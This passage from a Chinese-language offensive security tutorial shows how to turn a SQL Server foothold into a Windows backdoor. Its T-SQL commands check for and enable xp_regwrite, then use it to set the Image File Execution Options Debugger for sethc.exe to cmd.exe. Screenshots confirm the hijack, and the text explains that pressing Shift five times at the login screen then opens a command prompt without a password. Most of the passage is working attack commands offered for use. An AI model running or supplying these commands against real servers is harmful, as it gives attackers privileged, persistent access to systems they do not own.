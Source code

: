 ```mssql
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite'
```

<img src="https://s2.loli.net/2023/03/21/HofdRrqKbMlE7e2.png" alt="image-20230321133044330" style="zoom:50%;" />

### 开启xp_regwrite功能

我这里已经开启了，就出现报错了，之前我试了一下关闭，好像还是报错，不过默认情况下好像是开启的。

```mssql
开启：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_regwrite',1;
RECONFIGURE;

关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_regwrite',0;
RECONFIGURE;
```

<img src="https://s2.loli.net/2023/03/21/zdrRLb8Aq9xKijH.png" alt="image-20230321133234359" style="zoom:50%;" />

### 注册表劫持

利用regwrite函数修改组注册表进行劫持。

```mssql
EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
```

<img src="https://s2.loli.net/2023/03/21/ArUzyKVM4d9NSFh.png" alt="image-20230321133433465" style="zoom:50%;" />

### 查看是否劫持成功

接着我们查看是否劫持成功，可以看到下面显示cmd.exe，那么就证明劫持成功。

```mssql
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'
```

<img src="https://s2.loli.net/2023/03/21/vdc2uiU5VjsSflA.png" alt="image-20230321133531846" style="zoom:50%;" />

### 测试结果

这里使用远程桌面，或者什么其它方式，进入未输入密码的界面，然后按按5次shift，即可跳出cmd.exe。

<img src="https://s2.loli.net/2023/03/21/W5DTy4tLCdQlevM.png" alt="image-20230321133729222" style="zoom:50%;" />

# 总结

最后，这几种提权方式，目前在SQL Server2008及以前版本同时SQL Server2012上基本上都能用，但是到2016或者更高的版本上就可能会出现部分不能用，或者SA权限太低的情况，导致无法提权。